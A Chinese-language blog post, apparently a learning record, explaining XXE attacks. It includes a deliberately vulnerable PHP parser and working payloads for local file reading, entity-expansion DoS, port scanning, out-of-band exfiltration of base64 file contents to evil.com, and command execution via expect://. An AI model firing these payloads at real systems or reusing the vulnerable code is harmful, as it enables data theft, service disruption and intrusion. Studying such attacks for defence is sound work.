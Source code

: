 ```yaml
---
layout: post
title: "XML实体攻击回顾"
tags: [security,web]
---
```


XML实体攻击已经是一个很老的技术了，这里仅对学习的过程做一个记录。

{% highlight php %}
<form method="POST" action="">
	<textarea name="keyword" value="" style="width: 500px; height: 300px"></textarea>
	<input type="submit" value="submit">
</form>

<?php
$keyword = $_POST['keyword'];
$xml_obj = simplexml_load_string($keyword);
var_dump($xml_obj);
{% endhighlight %}

上面这段代码用于XXE实体攻击的练习，你可以将其保存至你的环境下用于测试。（记得删除 :P）

XML讲解可以参考w3schools的教程-[XML](http://www.w3schools.com/xml/)。

这里简单说一下XML中的实体类型，大致有下面几种：

* 字符实体
* 命名实体
* 外部实体
* 参数实体

除参数实体外，其它实体都以字符（&）开始，以字符（;）结束。常规实体有：`&apos;（'）`、`&amp;（&）`、`&quot;（"）`、`&lt;（<）`、`&gt;（>）`。

**字符实体**类似html中的实体编码，形如：`&#97;（十进制）`或者`&#x61;（十六进制）`。

**命名实体**可以说成是变量声明，命名实体只能声明在DTD或者XML文件开始部分（<!DOCTYPE>语句中）。如下面代码所示：

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY x "First Param!">
        <!ENTITY y "Second Param!">
    ]>
    <root><x>&x;</x><y>&y;</y></root>

**外部实体**用于加载外部文件的内容。（XXE攻击主要利用此实体）

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPe root [
        <!ENTITY outfile SYSTEM "outfile.xml">
    ]>
    <root><outfile>&outfile;</outfile></root>

**参数实体**用于DTD和文档的内部子集中。与一般实体相比它以字符（%）开始，以字符（;）结束。只有在DTD文件中才能在参数实体声明的时候引用其他实体。（XXE攻击常结合利用参数实体进行数据回显）

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY % param1 "Hello">
        <!ENTITY % param2 " ">
        <!ENTITY % param3 "World">
        <!ENTITY dtd SYSTEM "combine.dtd">
        %dtd;
    ]>
    <root><foo>&content</foo></root>
    
combine.dtd中的内容为：

    <!ENTITY content "%param1;%param2;%param3;">
    
上面combine.dtd中定义了一个基本实体，引用了3个参数实体：

    %param1;，%param2;，%param3;。

解析后`<foo>...</foo>`中的内容为`Hello World`。

XML实体攻击主要利用了XML实体中的外部实体结合各种协议来读取服务器上的数据，在DTD文件中的参数实体声明时能够引用其他参数实体的值，因此在XXE攻击回显遇到困难时会用到。

### * 简单文件读取

因为可以进行外部实体加载，在XXE攻击中常用来进行本地文件读取。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "file://localhost/c:/windows/win.ini">
    ]>
    <root><foo>&content;</foo></root>
    
![img]({{ site.url }}/public/img/article/2015-06-08-xml-entity-attack-review/file_read.jpeg)

在使用`file://`协议时，有以下几种格式：

    * Linux
    file:///etc/passwd
    
    * Windows
    file:///c:/windows/win.ini
    file://localhost/c:/windows/win.ini
    （下面这两种在某些浏览器里是支持的）
    file:///c|windows/win.ini
    file://localhost/c|windows/win.ini
    
除了使用`file://`协议进行文件读取外，如果XML文档是用PHP进行解析的，那么还可以使用`php://filter`协议来进行读取。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "php://filter/resource=c:/windows/win.ini">
    ]>
    <root><foo>&content;</foo></root>
    
### * DoS攻击

因为解析器会解析文档中的所有实体，因此如果实体声明层层嵌套的话，在一定数量上可以对服务器器造成DoS。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY x1 "CPU Consuming Task!">
        <!ENTITY x2 "&x1;&x1;">
        <!ENTITY x3 "&x2;&x2;&x2;">
        ...
        <!ENTITY x100 "&x99;&x99;&x99;...">
    ]>
    <root><foo>&x100;</foo></root>

嵌套实体声明曾指数增长，可能造成对服务器的DoS。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY dos SYSTEM "/dev/zero">
    ]>
    <root></root>
    
加载一个不稳定的文件描述也可能产生DoS。

### * 端口扫描

加载外部DTD时有两种加载方式，一种为私有`private`，第二种为公告`public`。

私有类型DTD加载：

    <!ENTITY private_dtd SYSTEM "DTD_location">
    
公共类型DTD加载：

    <!ENTITY public_dtd PUBLIC "DTD_name" "DTD_location">
    
在公共类型DTD加载的时候，首先会使用`DTD_name`来检索，如果无法找到，则通过`DTD_location`来寻找此公共DTD。利用`DTD_location`，在一定的环境下可以用来做内网探测。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY portscan SYSTEM "http://localhost:3389">
    ]>
    <root><foo>&portscan;</foo></root>
    
因解析器种类不同，所以针对XXE攻击进行端口扫描需要一个合适的环境才能够实现，例如：有明显的连接错误信息。

### * 利用DTD进行数据回显

当利用XXE攻击进行文件读取时经常因为没有回显而显得鸡肋，这个时候就可以结合参数实体的特殊性，加载一个外部DTD来进行回显。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/windows/win.ini">
        <!ENTITY % dtd SYSTEM "http://192.168.1.100:8000/evil.dtd">
        %dtd;
        %send;
    ]>
    <root></root>
    
其中`evil.dtd`的内容如下：

    <!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://evil.com/?content=%file;'>">
    %payload;
    
在DTD文件中声明了参数实体`payload`，其值是一个实体参数声明，因为是在DTD里面，所以可以引用上文的`%file;`参数实体，`%file;`参数实体为`c:/windows/win.ini`文本的内容。最后在原XML里引用DTD中的参数实体，此时就可以讲本地文件读取的内容通过HTTP发送出去（为了让请求的URL有效，这里对使用了`php://filter`协议，并将内容使用base64进行了编码）。

![img]({{ site.url }}/public/img/article/2015-06-08-xml-entity-attack-review/redirect_file.jpeg)

此方法针对数据不回显的情况及其有用。

### * 远程命令执行

当然了，除了文件读取和DoS外，某些情况下还能进行RCE。例如在PHP开启了PECL上的Expect扩展时，就能使用`expect://`协议来执行命令。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "expect://dir .">
    ]>
    <root><foo>&content;</foo></root>
    
利用XXE攻击时需要结合实际环境才能发挥出其威力。:D

### 参考

* [http://www.ibm.com/developerworks/cn/xml/x-entities/](http://www.ibm.com/developerworks/cn/xml/x-entities/)
* [https://www.youtube.com/watch?v=eHSNT8vWLfc](https://www.youtube.com/watch?v=eHSNT8vWLfc)
* [http://blogs.msdn.com/b/ie/archive/2006/12/06/file-uris-in-windows.aspx](http://blogs.msdn.com/b/ie/archive/2006/12/06/file-uris-in-windows.aspx)
* [http://en.wikipedia.org/wiki/File_URI_scheme](http://en.wikipedia.org/wiki/File_URI_scheme)

